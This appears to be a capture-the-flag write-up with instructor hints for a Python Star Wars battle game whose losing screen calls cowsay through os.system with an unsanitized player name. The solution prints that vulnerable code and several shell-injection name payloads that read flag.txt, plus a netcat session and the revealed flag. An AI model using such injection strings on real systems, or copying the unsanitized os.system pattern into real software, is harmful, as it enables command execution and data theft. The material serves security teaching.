

# Star Wars: The Sequel Trilogy

The final in a series of 3 progressively more difficult challenges.  Game has 2
pseudorandom star wars characters have a battle.  The students are given the
source code (python) for the game to exampine. You are supposed to guess
the winner correctly 7 times in a row.

The third challenge that source has been modified to fix the bug in the PRNG.
Instead of using a fixed seed, this game now uses a seed that is based on the
cryptographic random number generator that can't be predicted.

But there is another change in the game that allows the user to execute a
system function command injection.  The game uses cowsay to hurl insults at
the player when they lose, but the player name is not sanitized.

## Hints

* Try running the diff to tool to compare the 2 versions and see how each
  version differs (maybe also suggest meld or kompare for the diffing)
* The PRNG of this challenge has been fixed, the student will need to find
  a different approach for this one
* Ask the student to check the category of this challenge, what does pwn
  mean?
* Ask them how to commands can be run on one line on the Linux shell

## Solution

Diff the source of this version against the original trilogy version.

```
$ diff battle.py ../8_star_wars_original_trilogy/
3c3
< import random, os, time, struct                    
---
> import random, os, time    
5,6c5,7   
< gNames = [ "Kylo Ren",              
<            "General Leia",                                                                                                                                   
---        
> gNames = [ "Boba Fett",
>            "Darth Vader", 
>            "Princess Leia",
8,10c9,10                                                                   
<            "Rey",
<            "Poe",
<            "Finn" ]
---
>            "Palpatine",
>            "Yoda" ]
44,50d43
< def loser(name):
<       cowFiles = [ "leia.cow", "leia2.cow", "ackbar.cow", "baby_yoda.cow", 
<                    "ewok.cow", "r2d2-c3po.cow", "atst-atat.cow" ]
<       cowFile = "./cows/" + random.choice(cowFiles)
<       os.system('/usr/games/cowsay -f {} "{} is a loser.  lolz"'.format(cowFile, name))
<       time.sleep(10)
< 
79,82c72
<       randBytes = os.urandom(4)
<       (seedVal) = struct.unpack("I",randBytes)
<       random.seed(seedVal)
< 
---
>       random.seed(int(time.time()))
86d75
<       numLosses = 0
88,90c77
<       name = input("What is your name challenger?\n")
< 
<       while( (winStreak < 7) and (numLosses < 3) ):
---
>       while(winStreak < 7):
111,112d97
<                       numLosses += 1
<                       print("Not looking good {}, your win streak just got reset to 0.  Rekt!".format(name))
116,118d100
< 
<       if (numLosses >= 3):
<               loser(name)
```

Some of the character names have changed, but that isn't a big deal.  The
PRNG of this game has now been fixed with a proper cryptographically secure
PRNG seed.  (The random library isn't assumbed to be crytographically secure,
so while you could probably exploit it's behavior, that is way more difficult
of a task).

The other thing the students should notice is that the game insults them.
It uses the cowsay program to draw ASCII art on the screen.  But it uses
the system call with a user supplied string that is unsanitized.

Make your name have something that makes system execute another command.
Then lose the game, the cowsay then can print the flag.

Names can be:

```
hacker"; cat flag.txt; #
```

or...

```
rekt `cat flag.txt`
```


or...

```
flag is $(cat flag.txt)
```

So playing the game...

```
$ nc ctf.mwales.net 45004
What is your name challenger?
flag is $(cat flag.txt)
```

Keep selecting 0, everyone dies.  Lose 3 times.


```
  General Leia wins!                                                        
                                                                               
Not looking good flag is $(cat flag.txt), your win streak just got reset to 0.  Rekt!
 _________________________________________                                
/ flag is                                 \                             
| wildcat{strike_me_down_and_i_become_mor |                             
\ e_powerful} is a loser. lolz            /                           
 -----------------------------------------                            
                     \
```                                             

followed by the ASCII artwork...

Revealing the flag

```
wildcat{strike_me_down_and_i_become_more_powerful}
```
